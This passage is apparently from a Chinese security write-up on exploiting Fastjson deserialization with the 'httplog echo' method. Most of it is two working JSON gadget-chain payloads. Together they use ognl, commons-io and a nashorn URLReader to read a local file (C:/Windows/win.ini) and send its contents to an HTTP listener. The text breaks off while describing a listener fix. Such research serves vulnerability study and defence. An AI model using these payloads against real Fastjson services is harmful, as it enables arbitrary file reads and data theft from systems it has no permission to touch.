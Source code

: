 #### 4.1.1.4 httplog 回显法（另需 ognl>=2.7 以及 commons-io>=2.0）

分两次打。

`payload40`（组合拳）：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```plain
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Windows/win.ini"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36]}]}}}},"su17":{"$ref":"$.su16.node.p.stream"},"su18":{"$ref":"$.su17.bOM.bytes"}}
```

我这里实际测试过程中，文件中有中文字符的时候出现了乱码：

[![](assets/1706254407-85a943d289adfbae03cda966cb8b1aac.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223219033.png)

我的解决方法是，使用`yakit`的端口监听器：
